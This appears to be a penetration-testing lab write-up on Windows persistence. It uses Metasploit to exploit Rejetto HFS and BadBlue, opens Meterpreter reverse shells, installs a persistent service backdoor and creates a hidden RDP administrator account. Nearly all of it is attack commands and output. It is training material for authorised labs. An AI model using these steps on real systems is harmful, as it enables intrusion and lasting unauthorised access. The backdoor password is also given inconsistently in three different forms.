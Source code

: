 # 🔬Windows Persistence

## Lab 1 - Service <a href="#lab-1-service" id="lab-1-service"></a>

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> * Target IP: `10.0.28.44`
> * **Persistence** via services

```bash
nmap -sV 10.0.28.44
```

```bash
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
setg RHOSTS 10.0.28.44
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
    Server username: WIN-OMCNBKR66MN\Administrator
```

* With the `Administrator` Meterpreter session, privilege escalation is not necessary.

### Persistence <a href="#persistence" id="persistence"></a>

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set LPORT 4444 # use a different port than the other session
sessions
set SESSION 1
exploit
```

* Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

<figure><img src="../../../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

* Kill all MSF sessions

```bash
exit
# Kill all sessions
sessions -K
sessions
	# No active sessions.
# Close msfconsole
exit 
```

* Regain access to the system

```bash
msfconsole -q

use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

<figure><img src="../../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

***

## Lab 2 - RDP <a href="#lab-2-rdp" id="lab-2-rdp"></a>

> 🔬 [Maintaining Access: RDP](https://attackdefense.com/challengedetails?cid=2142)
>
> * Target IP: `10.0.30.1`
> * **Persistence** via RDP and a backdoor user account



```bash
nmap -sV 10.0.30.1
```

```bash
PORT    STATE SERVICE       VERSION
80/tcp  open  http          BadBlue httpd 2.7
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

```bash
service postgresql start && msfconsole -q
```

<pre class="language-bash"><code class="lang-bash"><strong>search badblue
</strong><strong>use exploit/windows/http/badblue_passthru
</strong><strong>options
</strong>set RHOSTS 10.0.30.1
exploit
</code></pre>

<figure><img src="../../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

### [Enable RDP & New User](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/) <a href="#enable-rdp-and-new-user" id="enable-rdp-and-new-user"></a>

* Use the **`getgui`** Meterpreter command to
  * Enable the `RDP` service
  * Create a new user & hide it from Win Login screen
  * Add it to `Remote Desktop Users` & `Administrators` groups

```bash
run getgui -e -u bob -p pass_123321
```

> 📌 New user's credentials are `bob`:`password123`

<figure><img src="../../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

* In a new Terminal TAB

```
xfreerdp /u:bob /p:pass_1234321 /v:10.0.30.1
```

<figure><img src="../../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

* The cleanup script provided to remove the added account can be run when the attacker is done with the current system

```bash
# In the Meterpreter Session
run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-2c4539fde70ba9b327002701c2325eea27341876%252Fimage-20230429152215357.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=d526ca3&#x26;sv=1" alt=""><figcaption><p>Cleanup script</p></figcaption></figure>
